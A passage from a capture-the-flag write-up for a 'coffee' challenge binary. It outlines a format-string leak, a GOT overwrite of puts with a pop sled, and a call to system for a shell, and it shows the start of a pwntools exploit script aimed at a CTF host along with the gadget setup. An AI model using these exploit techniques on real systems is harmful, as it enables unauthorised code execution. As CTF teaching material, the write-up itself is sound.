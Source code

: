 Each statement will move the stack pointer down stack and the `ret` will pop the top of the stack into RIP.


### Assembling the exploit

The final exploit should be simple:

1. Use a format-string exploit to leak libc from the stack and GOT overwrite `puts` with our pop sled, and `_start` over.
2. For the second pass we no longer need the format-string exploit, the `puts` pop sled will still be in place, and we now have libc, so we just need to call `system` to get a shell.



## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./coffee')

if args.REMOTE:
    p = remote('34.146.101.4', 30002)
    libc = ELF('./libc.so.6')
else:
    p = process(binary.path)
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
```

Standard pwntools header.

```python    
whitespace = b'\f\t\r\n\v '
offset = 6
pop_rdi = binary.search(asm('pop rdi; ret')).__next__()
pop_sled = binary.search(asm('pop rbp; pop r12; pop r13; pop r14; pop r15; ret')).__next__()
```

Setup a few variables:

* `whitespace` is used for the second pass to detect any whitespaces in the payload.  `scanf` will stop reading on any whitespace.  Thanks to ASLR there is a small probability of whitespace.  You could just rerun and get a shell, or check for failure upfront.
* `offset` is the `printf` parameter at the start of our buffer.  In CTF's it is usually `6` for x86\_64.  I'm not going to get into the details here how to discover this; just Google for _format-string exploit howto_--there's a number of good references.  In short, you can enter `%xx$p` where `xx` is `06`-`99` and when the output matches your input you have the offset, or just look at the stack in GDB just before the `printf` statement.
* `pop_rdi` is a ROP gadget within the _No PIE_ `coffee` binary.  With PIE we'd need a base process address leak first.
* `pop_sled` is also a ROP gadget within the `coffee` binary.

> _How many pops do we need?_  That depends on the length of the format-string.  Below my format-string is 32 bytes, so 4 pops to move past that, however the `call` pushes a return address, so we'll need a 5th.
> 
> BTW, that `binary.search` will only work if the assembly is exactly the same as the `objdump` output above (see Analysis section).  There's no magic here.  I prefer this approach vs. hardcoding addresses so that it is easier to read and reuse my code.
